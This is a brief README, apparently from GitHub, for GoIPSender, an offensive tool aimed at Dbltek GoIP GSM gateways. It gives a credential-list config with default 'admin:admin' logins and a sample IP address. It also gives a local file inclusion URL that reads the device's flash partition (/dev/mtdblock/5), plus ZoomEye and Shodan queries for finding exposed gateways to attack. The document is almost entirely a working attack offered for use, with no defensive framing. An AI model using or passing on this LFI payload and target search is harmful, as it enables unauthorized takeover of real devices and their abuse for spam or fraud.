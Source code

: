 # GoIPSender

# Config
``host|user:pass,line``
example: ``177.30.254.36:81|admin:admin,8``
## LFI GoIP Dbltek
``http://ip:port/default/en_US/frame.html?content=/dev/mtdblock/5``
### Export results
``zoomeye: /default/en_US/status.html``
<br/>
``shodan: HTTP/1.0 401 Please Authenticate WWW-Authenticate: Basic realm="Please Login"``
<br/><br/>
![image](https://user-images.githubusercontent.com/74382279/198907983-7b0c6075-fdca-41ef-aba9-fe393d0b7b3e.png)
